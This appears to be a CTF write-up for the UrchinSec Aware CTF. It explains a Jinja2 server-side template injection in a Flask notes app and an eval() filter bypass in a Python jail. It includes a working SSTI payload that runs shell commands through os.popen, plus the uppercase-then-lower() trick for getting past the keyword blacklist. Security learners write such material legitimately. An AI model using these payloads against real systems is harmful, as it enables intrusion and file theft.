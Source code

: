 ---------------

### CTF: URCHINSEC AWARE CTF

--------------

![image](https://github.com/user-attachments/assets/21dcb944-92b5-4150-b742-71e140fe3c3c)

--------------

### CHALLENGES:

- Web:
  - Notee
  - Pyrison
- Securecode Reviewing
  - Heart
  - Redhand
  - Syringe

-----------------

### WEB:

-----------------

### Notee:

![image](https://github.com/user-attachments/assets/55fbe0a9-917e-4d43-8538-fae02180f615)

- The challenge's main vulnerability is `Server Side Template Injection` and the code detailed below shows the sink.

```python3
@app.route('/<username>/note/<id>/comment', methods=['GET'])
def get_comments_note(username, id):
    note = Note.query.filter_by(id=id).first()
    if note is not None:
        # check if username inserted matches the note
        if note.username == username:
            return render_template_string(note.comment)
        else:
            return abort(403)
    else:
        return abort(404)
```
- Route `/<username>/note/<id>/comment` takes in the `comment` key retrieved from the `note` variable and passes it to `render_template_string` which is vulnerable to the sink.The note's variable is from the `POST` parameters filled in the index page.The main point to pass the payload is the `comment` input box.

```python3
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        title = request.form.get('title')
        description = request.form.get('description')
        comment = request.form.get('comment')
        user_ip = request.remote_addr
```

### Exploitation

- I added the payload below to the comment box.

```python3
{{x.__init__.__globals__['__builtins__']['__import__']('os').popen('cat /*').read()}}
```
![image](https://github.com/user-attachments/assets/c3b06971-5cb1-4841-b4b6-a2004079a935)

- I retrieved the flag with `curl`.

![image](https://github.com/user-attachments/assets/2a322d84-6257-434c-9963-4c673f03a37b)

- Flag-:```urchinsec{W3_KEEP_NOTES_SAfe_f0r_ouR_S3cr3t_r3cipesss}```

---------------------

### Pyrison

![image](https://github.com/user-attachments/assets/c714af89-b059-493c-9800-b1a93da2633c)

- This challenge requires blackbox testing because no source code was provided but based on the author's choice of name.I deduced that the backend is python and values are passed to `eval()` in python but some special keywords are filtered.
- I tested `7*7` and got the value `49` which signifies that my deductions are accurate.

![image](https://github.com/user-attachments/assets/113835e1-cf4c-49d3-aa86-eba45b42b466)

- I also tried `import` to import modules but I noticed that the author blacklisted it.

![image](https://github.com/user-attachments/assets/a1216e31-aacf-4ed6-9e02-6fe2b84ce1af)

- I tried the next method by passing `eval("__IMPORT__".lower())` which worked because the filter is not case sensitive and picks only `import` in lowercase and not in uppercase.I passed the uppercase `import` to the `lower()` to convert it to lowercase which is evaluated later with the `eval()` function.You can see below that we've successfully called the `import` function.

![image](https://github.com/user-attachments/assets/4e11ab0b-0e79-48e1-8d2d-a277e05cf148)













